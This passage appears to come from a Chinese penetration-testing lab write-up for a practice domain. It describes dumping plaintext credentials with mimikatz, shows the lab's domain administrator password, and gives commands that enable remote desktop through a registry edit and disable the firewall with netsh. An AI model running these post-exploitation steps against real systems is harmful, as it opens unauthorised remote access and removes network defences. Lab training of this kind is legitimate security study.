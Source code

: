 ![](../../attaches/Pasted%20image%2020220914183859.png)
使用mimikatz抓取明文密码。
![](../../attaches/Pasted%20image%2020220914182914.png)
观察到在god域中Administrator的密码为hongrisec@2022。执行命令开启靶机的3389端口并关闭防火墙（为了进行远程桌面连接，若只想对域进行控制此步可以省略）。
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
```